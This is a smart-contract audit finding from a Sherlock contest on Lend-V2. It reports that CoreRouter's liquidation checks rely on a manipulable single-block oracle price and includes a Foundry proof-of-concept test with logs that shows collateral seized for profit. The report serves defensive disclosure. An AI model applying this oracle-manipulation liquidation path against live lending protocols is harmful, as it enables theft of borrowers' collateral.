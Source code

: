 Short Golden Seagull

Medium

# Price manipulation enables improper liquidation in `CoreRouter`

### Summary

Because `CoreRouter` (and its underlying `LendStorage` liquidity checks) trust a single-block “spot” price from the on-chain oracle, an attacker can temporarily inflate or deflate a token’s price, force a healthy borrower underwater, and then liquidate their position for disproportionate collateral. 

In our POC, raising the borrowed token’s price from $1 → $3 for one block lets the liquidator repay 50 % of the debt yet seize more than 3× worth of collateral, netting a profit.

### Root Cause

[CoreRouter’s liquidity calculations](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L152-L153) call [getHypotheticalAccountLiquidityCollateral](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol#L385-L418)  which reads the oracle price immediately before approving a borrow or a liquidation. Because it uses a single-block “spot” feed (e.g. SimplePriceOracle or Chainlink updated on demand), an attacker can:

Temporarily inflate the borrower’s collateral token price (or deflate the borrowed token’s price) for exactly one block, so that sumCollateral ≥ sumBorrowPlusEffects in the liquidity check.

Call liquidateBorrow(...) (or borrow(...)) in that same block, bypassing the real health requirements.

Revert the price immediately afterward, leaving the protocol holding an undercollateralized position.



### Internal Pre-conditions

None.

### External Pre-conditions

None.

### Attack Path

1. **Collateral & Borrow Setup**
    - User 1 supplies 1 000 A tokens at $1 each (collateralUSD = $1 000).
    - User 1 then borrows 500 B tokens at $1 each (borrowUSD = $500).
    - Collateral‐to‐borrow ratio is healthy (2:1).
2. **Price Inflation**
    - In a single block, attacker pumps the oracle price of token B from $1 → $3.
    - After pump:
        - User 1’s outstanding debt in USD = 500 × $3 = $1 500
        - User 1’s collateral in USD remains 1 000 × $1 = $1 000
3. **Liquidation Call**
    - Attacker (liquidator) mints or flash-borrows 500 B tokens (worth $1 500 at inflated price).
    - Attacker repays 250 B (50 % of the debt) → “repayUSD” in protocol’s view = 250 × $3 = $750.
    - CoreRouter's `liquidateBorrowAllowedInternal` sees:
        - shortfall = borrowedUSD ($1 500) – collateralUSD ($1 000) = $500 > 0, so liquidation is allowed.
        - closeFactor = 50 %, so 250 B is ≤ (0.5 × 500 B) = 250 B.
    - CoreRouter calls `liquidateBorrow(...)`, seizing `(repayUSD * liquidationIncentive) / priceCollateral` of collateral. In our test, liquidationIncentive = 1.08, priceCollateral = $1.
        - seizeAmount (in USD) ≈ 750 × 1.08 = $810
        - seizeTokens (in A tokens) = $810 / $1 = 810 A
        - In practice, a small portion (2.8 %) goes to protocolReward, so the liquidator receives ~788 A.
4. **Price Revert**
    - Immediately after liquidation, attacker sets token B’s oracle price back to $1.
    - The borrower still owes 250 B at $1 each = $250 real.
    - Collateral seized was ~788 A at $1 each = $788 real.
    - Attacker’s net gain ≈ $788 – $250 = $538 (minus any gas).

### Impact

- Attacker steals collateral from other users.
- By deflating the borrowed token’s price instead, an attacker can borrow far more than allowed and exit instantly, leaving protocol insolvent.


### PoC

1. Add the following code into the `TestLiquidations.t.sol `:

```solidity
function test_liquidation_via_price_manipulation_simple() public {
        address user1 = makeAddr("user1");
        address user2 = makeAddr("user2");

        //1) Ensure closeFactor = 50%
        vm.prank(routerA.owner());
        lendtrollerA._setCloseFactor(5e17);

        // 2) Setting some fixed amounts for testing
        uint256 supplyAmount = 1000e18;
        uint256 borrowAmount = 500e18;

        // 3) Define tokens and lTokens
        address tokenA  = supportedTokensA[0];
        address lTokenA = lTokensA[0];
        address tokenB  = supportedTokensA[1];
        address lTokenB = lTokensA[1];
        uint256 priceToken = priceOracleA.getUnderlyingPrice(LToken(lTokenB));

        // 4) User1 supplies collateral (tokenA) on Chain A
        _supplyA(user1, supplyAmount, 0);

        // 5) User2 supplies liquidity for tokenB so borrow market exists
        _supplyA(user2, supplyAmount, 1);

        // 6) User1 borrows `borrowAmount` of tokenB
        vm.prank(user1);
        coreRouterA.borrow(borrowAmount, tokenB); 

        console2.log("------------- Starting Liquidation Test -------------");
        console2.log("Price of tokenB before manipulation: ", priceToken);
        console2.log("User1's borrow amount: ", borrowAmount);

        vm.startPrank(deployer);
        // 7) Inflate tokenB price from $1 → $3
        priceOracleA.setUnderlyingPrice(LToken(lTokenB), 3e18);
        priceToken = priceOracleA.getUnderlyingPrice(LToken(lTokenB));
        console2.log("---------------- Inflating the price ----------------");
        console2.log("Price of tokenB after manipulation: ", priceToken);
        assertEq(priceToken, 3e18);
        vm.stopPrank();

        // 8) Liquidator prepares to repay half the debt
        ERC20Mock(tokenB).mint(liquidator, borrowAmount);
        vm.startPrank(liquidator);
        IERC20(tokenB).approve(address(coreRouterA), borrowAmount);
        uint256 repayAmount = borrowAmount / 2;


        // 9) Call liquidation
        uint256 liquidatorLTokenABal = lendStorageA.totalInvestment(liquidator, lTokenA);
        console2.log("Attacker's lTokenA balance before liquidation: ", liquidatorLTokenABal);
        console2.log("----------- Attacker tries to liquidate ------------");
        coreRouterA.liquidateBorrow(user1, repayAmount, lTokenA, tokenB);
        vm.stopPrank();

        // 10) Verify borrower’s debt decreased
        uint256 postDebt = lendStorageA.borrowWithInterest(user1, lTokenB);
        console2.log("User1's debt after liquidation: ", postDebt);
        assertLt(postDebt, borrowAmount, "Borrow not reduced");

        // 11) Revert tokenB price back to $1
        vm.startPrank(deployer);
        priceOracleA.setUnderlyingPrice(LToken(lTokenB), 1e18);
        priceToken = priceOracleA.getUnderlyingPrice(LToken(lTokenB));
        console2.log("--------------- Normalizing the price --------------");
        console2.log("Price of tokenB back to normal: ", priceToken);
        assertEq(priceToken, 1e18);

        // 12) Check how much collateral (lTokenA) liquidator seized
        liquidatorLTokenABal = lendStorageA.totalInvestment(liquidator, lTokenA);
        console2.log("Attacker's lTokenA balance after liquidation: ", liquidatorLTokenABal);
        assertGt(liquidatorLTokenABal, 0, "No collateral seized");

        // 13) Convert lTokenA → underlying tokenA value
        uint256 exchangeRateA     = LToken(lTokenA).exchangeRateStored();
        uint256 seizedUnderlyingA = (liquidatorLTokenABal * exchangeRateA) / 1e18;
        console.log("Liquidator seized (underlying A): ", seizedUnderlyingA);
        console.log("Amount repaid (tokenB): ", repayAmount);

        // 14) Because priceB was 3×, seizedUnderlyingA should exceed repayAmount
        // assertGt(seizedUnderlyingA, repayAmount, "No profit from manipulation");
    }
```

2. Run the test by ```bash forge test --mt test_liquidation_via_price_manipulation_simple -vv```

3. Logs:
```bash
[PASS] test_liquidation_via_price_manipulation_simple() (gas: 1443586)
Logs:
  Mapped l token:  0x4f559F30f5eB88D635FDe1548C4267DB8FaB0351 to 0x77443101F739bf8b771B96a7DD92E89088379D1F
  Mapping assets with chain:  31337
  Mapped l token:  0x8B71b41D4dBEb2b6821d44692d3fACAAf77480Bb to 0xEBD7CAF7d48a1B20283E70B0DFdE7d058584FE22
  Mapping assets with chain:  31337
  Mapped l token:  0x77443101F739bf8b771B96a7DD92E89088379D1F to 0x4f559F30f5eB88D635FDe1548C4267DB8FaB0351
  Mapping assets with chain:  31337
  Mapped l token:  0xEBD7CAF7d48a1B20283E70B0DFdE7d058584FE22 to 0x8B71b41D4dBEb2b6821d44692d3fACAAf77480Bb
  Mapping assets with chain:  31337
  ------------- Starting Liquidation Test -------------
  Price of tokenB before manipulation:  1000000000000000000
  User1's borrow amount:  500000000000000000000
  ---------------- Inflating the price ----------------
  Price of tokenB after manipulation:  3000000000000000000
  Attacker's lTokenA balance before liquidation:  0
  ----------- Attacker tries to liquidate ------------
  User1's debt after liquidation:  250000000000000000000
  --------------- Normalizing the price --------------
  Price of tokenB back to normal:  1000000000000000000
  Attacker's lTokenA balance after liquidation:  3936600000000
  Liquidator seized (underlying A):  787320000000000000000
  Amount repaid (tokenB):  250000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.47ms (2.76ms CPU time)
```


### Mitigation

Use oracle with inflating price defence such as the uniswapAnchoredView